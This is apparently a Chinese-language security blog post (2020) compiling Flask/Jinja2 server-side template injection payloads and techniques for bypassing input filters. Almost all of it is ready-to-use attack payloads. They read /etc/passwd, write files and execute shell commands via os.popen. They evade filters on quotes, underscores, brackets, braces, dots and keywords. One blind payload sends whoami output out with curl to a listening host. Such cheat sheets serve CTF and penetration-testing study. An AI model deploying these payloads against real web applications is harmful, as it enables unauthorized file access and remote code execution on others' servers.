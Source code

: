 ```yaml
---
layout:     post
title:      Flask ssti
subtitle:   总结一下ssti常见payload 和 绕过方式
date:       2020-05-20
author:     BY Diego
header-img: img/wenzhang/post-bg-flask-ssti.jpg
catalog: true
tags:
    - Python
    - 命令注入
---
```


# 一、 常见payload

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__getattribute__ 使用实例访问属性时,调用该方法
__dict__ 查看方法
```

获取object

```python
''.__class__.__mro__[2]  #python2
''.__class__.__mro__[1] #python3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用 [10]
```

类似request的还可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config

通过self.\_\_dict__ 查看


**获取索引**
```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

**读文件**
python2
```python
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{ % endif % }{ % endfor % }
```

**写文件**
```python
().__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('test').write("test")
```

**执行命令**
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{ % endif % }{ % endfor % }
```
python2 (针对catch_warnings模块，python3也可只要知道模块对应位置)
```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen("whoami").read()
```
还有下面方法，直接贴别人图了，（懒）
[![Y5LJMj.png](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)](https://imgchr.com/i/Y5LJMj)

**使用脚本寻找(因环境而异)**
```python
_list =[].__class__.__base__.__subclasses__()
for c in _list:
	try:
		if "open" in c.__init__.__globals__['__builtins__']:
			print(c.__name__,_list.index(c))
	except Exception as e:
		pass
```
读文件
```python
{{[].__class__.__base__.__subclasses__()[对应数].__init__.__globals__['__builtins__'].open("/etc/passwd").read()}}
```
[![Y5LYss.png](https://s1.ax1x.com/2020/05/19/Y5LYss.png)](https://imgchr.com/i/Y5LYss)

命令执行找eval 或者\_\_import__,除去引用os模块还可以用其他可执行命令的模块 commands 等
```python
{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}

{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].__import__('os').popen('whoami').read()}}
```


# 二、 绕过

## ① 单双引号过滤
```python
__init__.__globals__['__builtins__']
# 转化成如下形式
__init__.__globals__.__builtins__
```

使用"request.args" 或者 "request.values"
python2 读举例
```python
?name={{().__class__.__bases__[0].__subclasses__()[40](request.args.aa).read()}}&aa=/etc/passwd
```
values 同理 数据为post

还可用set 语句 由于{ 和%博客里连起来报错这里就用url编码了
```python
%7B%25set chr=[].__class__.__base__.__subclasses__()[61].__init__.__globals__.__builtins__.chr%25%7B{{[].__class__.__base__.__subclasses__()[40](chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read()}}
```

## ② 下划线过滤
**使用"request.args" 或者 "request.values"**
```python
?name={{[][request.args.class][request.args.base][request.args.sub]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```
![YI1Af0.png](https://s1.ax1x.com/2020/05/19/YI1Af0.png)

**args values 被过滤？？**
```python
{{request.headers['X-Forwarded-For']}}
```
![Yo6Wwj.png](https://s1.ax1x.com/2020/05/20/Yo6Wwj.png)

**畸形方法获取_**
```python
[[]|map|string|list][0][20]
```
[![YoDrKH.png](https://s1.ax1x.com/2020/05/20/YoDrKH.png)](https://imgchr.com/i/YoDrKH)


先将
```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
转化成如下
```python
{{[[]|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][40]('/etc/passwd')|attr('read')()}}
```
再利用join特性将_分离([1,2,3]|join 结果为123)
```python
{{[[]|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
最后_替换[[]|map|string|list][0][20]
```python
{{[[]|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
![Yor8W8.png](https://s1.ax1x.com/2020/05/20/Yor8W8.png)

## ③ 中括号被过滤

利用该特性a\[2]== a.\_\_getitem__(2)
```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(40)('/etc/passwd').read()}}
```

## ④ 过滤{{
利用{ %% }
```python
{ % if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' % }1{ % endif % }
```
相当于盲命令执行，利用curl将执行结果带出来
或者而类似布尔注入

## ⑤ 关键字绕过
**base64编码绕过**
\_\_getattribute__使用实例访问属性时,调用该方法
```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

**字符串拼接绕过**
```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__buil'+'tins__']
```

**format函数**
```python
{{'fl{0}g'.format('a')}}
```
![YoyfG6.png](https://s1.ax1x.com/2020/05/20/YoyfG6.png)
## ⑥ . 被过滤
使用原生JinJa2函数|attr()
```python
?name={{()[(request|attr("args"))["class"]][(request|attr("args"))["base"]][(request|attr("args"))["sub"]]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```

另一种形式（其他编码也可base64等）
```python
{{[]["5F5F636C6173735F5F"["decode"]("hex")]["5F5F626173655F5F"["decode"]("hex")]["5F5F737562636C61737365735F5F"["decode"]("hex")]()[40]("/etc/passwd")["72656164"["decode"]("hex")]()}}
```
![YoGozq.png](https://s1.ax1x.com/2020/05/20/YoGozq.png)

变形
```python
{{[]['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[40]('/etc/passwd')['\x72\x65\x61\x64']()}}
```

畸形方法
获取·
```python
{{[1|float|string|list][0][1]}}
```
![Yo0pqI.png](https://s1.ax1x.com/2020/05/20/Yo0pqI.png)

## ⑦ 下划线、引号、中括号 被过滤

利用上述方法进行组合，构造如下payload

```python
?name={{((()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)())|attr(request.args.geti)(40)(request.args.file)).read()}}&class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&file=/etc/passwd
```
![YIwr6A.png](https://s1.ax1x.com/2020/05/19/YIwr6A.png)


# 三、参考

[SSTI: Bypass in a hard place, Fort Knox — ASIS Quals 2019](https://medium.com/@elberandre/ssti-bypass-in-a-hard-place-fort-knox-asis-quals-2019-91bc35a349d3)

[SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)

[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)

[浅析SSTI(python沙盒绕过)](http://flag0.com/2018/11/11/%E6%B5%85%E6%9E%90SSTI-python%E6%B2%99%E7%9B%92%E7%BB%95%E8%BF%87/)
